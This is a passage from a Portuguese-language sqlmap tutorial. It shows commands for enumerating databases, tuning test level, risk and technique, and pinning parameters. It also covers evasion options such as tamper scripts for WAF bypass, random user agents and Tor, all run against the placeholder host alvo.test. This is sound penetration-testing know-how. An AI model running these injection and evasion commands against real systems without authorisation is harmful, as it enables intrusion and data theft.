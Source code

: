 Outros úteis:

```bash
sqlmap -u "http://alvo.test?id=1" --tables -D meu_banco --search -T usuarios
sqlmap -u "http://alvo.test?id=1" --schema     # esquema completo (pode ser verboso)
```

## 9) Ajustando testes: level, risk, técnica e tempo

* `--level` (1–5): **quantidade** de testes por parâmetro (mais alto = mais lento e profundo).
* `--risk` (1–3): agressividade (3 pode causar efeitos colaterais).
* `--technique=BEUST`: restringe técnicas (B=Boolean, E=Error, U=Union, S=Stacked, T=Time).

Exemplos:

```bash
# Testes mais profundos e time-based
sqlmap -u "http://alvo.test?id=1" --level=5 --risk=2 --technique=BT --time-sec=5

# Forçar UNION e boolean apenas
sqlmap -u "http://alvo.test?id=1" --technique=UB
```

## 10) Performance, estabilidade e evasão

* **Threads** (cuidado com alvos frágeis): `--threads=5`
* **User-Agent aleatório**: `--random-agent`
* **Delays/timeout/retries**: `--delay=0.5 --timeout=20 --retries=2`
* **Proxy (ex.: Burp/ZAP)**: `--proxy="http://127.0.0.1:8080"`
* **Tor** (para laboratórios na internet): `--tor --tor-type=socks5 --check-tor`
* **Identificar WAF**: `--identify-waf`
* **Tampers** (bypass básicos): `--tamper=space2comment,between,randomcase,charunicodeencode`

  * Liste disponíveis: `--list-tampers`

Exemplo combinado:

```bash
sqlmap -u "http://alvo.test?id=1" \
  --level=5 --risk=2 --threads=5 --random-agent \
  --proxy="http://127.0.0.1:8080" --identify-waf \
  --tamper=space2comment,randomcase --batch
```

## 11) Precisão em parâmetros e páginas

Se só **um** parâmetro é vulnerável:

```bash
sqlmap -u "http://alvo.test/busca?q=test&cat=10&ord=asc" -p cat
```

Para **forçar** um ponto específico no corpo (POST/JSON) use `-p` com o nome do campo correspondente.

## 12) Sessões, saída e repetibilidade
